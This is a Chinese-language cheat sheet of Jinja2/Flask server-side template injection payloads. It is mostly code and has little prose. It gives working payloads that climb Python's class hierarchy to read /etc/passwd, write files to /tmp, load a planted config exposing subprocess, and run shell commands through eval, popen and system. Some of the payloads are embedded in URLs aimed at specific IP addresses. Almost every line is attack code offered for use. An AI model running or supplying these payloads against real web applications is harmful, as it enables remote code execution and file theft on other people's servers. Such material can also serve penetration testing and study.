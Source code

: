 文件读取和写入

```
#读文件
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
#写文件
{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("")}}
```

任意执行

每次执行都要先写然后编译执行

```
{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('code')}}
{{ config.from_pyfile('/tmp/owned.cfg')}}
```

写入一次即可

```
{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('from subprocess import check_output\n\nRUNCMD = check_output\n')}}
{{ config.from_pyfile('/tmp/owned.cfg')}}
{{ config['RUNCMD']('/usr/bin/id',shell=True)}}
```

不回显的

```
http://127.0.0.1/{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']('1+1')}}
http://127.0.0.1/{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').system('whoami')")}}
```

任意执行只需要一条指令

```
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}(这条指令可以注入，但是如果直接进入python2打这个poc，会报错，用下面这个就不会，可能是python启动会加载了某些模块)
http://39.105.116.195/{{''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('ls').read()")}}(system函数换为popen('').read()，需要导入os模块)
{{().__class__.__bases__[0].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}(不需要导入os模块，直接从别的模块调用)
总结:
通过某种类型(字符串:""，list:[]，int：1)开始引出，__class__找到当前类，__mro__或者__base__找到__object__，前边的语句构造都是要找这个。然后利用object找到能利用的类。还有就是{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')}}这种的，能执行，但是不会回显。一般来说，python2的话用file就行，python3则没有这个属性。
```

###### payload python3

因为 python3 没有 file 了，所以用的是 open

```
#文件读取
http://192.168.228.36/?name={{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__[%27open%27](%27/etc/passwd%27).read()}}
```
